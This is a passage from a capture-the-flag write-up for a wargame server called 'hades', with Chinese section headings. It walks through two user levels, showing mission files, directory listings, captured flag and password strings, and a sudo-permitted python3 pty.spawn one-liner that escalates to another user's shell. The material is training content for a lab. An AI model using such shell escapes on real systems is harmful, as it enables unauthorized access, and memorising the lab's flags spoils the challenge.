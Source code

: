 ### 任务目标

```plaintext title="mission.txt"
We need /bin/bash so that the user asia gives us her password. 
```

### 行动

```plaintext title="ls -lah"
-rw-r--r-- 1 artemis artemis  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 artemis artemis 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 artemis artemis  807 Apr 23  2023 .profile
-rw-r----- 1 root    artemis   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root    artemis  202 Jul 26  2023 mission.txt
-rw---x--- 1 root    artemis  16K Jul 26  2023 restricted
```

```shell title="Exploit it"
artemis@hades:~$ ./restricted 
Your SHELL is: /bin/bash

djqWtkLisbQlrGtLYHCv
```

## User - asia

### flag - 10

```plaintext
^ngXdULWFWKCGtgxAQNv^
```

### 任务目标

```plaintext title="mission.txt"
The user asteria is teaching us to program in python.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root asia 4.0K Jul 26  2023 .
drwxr-xr-x 1 root root 4.0K Jul 26  2023 ..
-rw-r--r-- 1 asia asia  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 asia asia 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 asia asia  807 Apr 23  2023 .profile
-rw-r----- 1 root asia   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root asia  188 Jul 26  2023 mission.txt
```

```shell title="Exploit it"
asia@hades:~$ sudo -u asteria /usr/bin/python3 -c "import pty;pty.spawn('/bin/bash')"
asteria@hades:/pwned/asia$ cd
asteria@hades:~$ cat flagz.txt 
^xSRhIftMsAwWvBAnqNZ^
```
